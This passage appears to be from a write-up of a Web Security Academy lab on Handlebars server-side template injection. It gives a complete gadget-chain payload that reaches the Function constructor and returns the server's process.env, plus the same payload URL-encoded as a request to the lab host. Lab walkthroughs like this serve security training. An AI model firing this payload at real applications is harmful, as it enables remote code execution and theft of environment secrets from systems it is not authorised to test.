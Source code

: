 {{this.**proto**}} with
https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message={{this.**proto**}}:

![img](media/bdd4b7a73e5949783dcc29e6426919ed.png)

Get process.env with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Url-encode it and get the content with
https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%4a%53%4f%4e%2e%73%74%72%69%6e%67%69%66%79%28%70%72%6f%63%65%73%73%2e%65%6e%76%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d: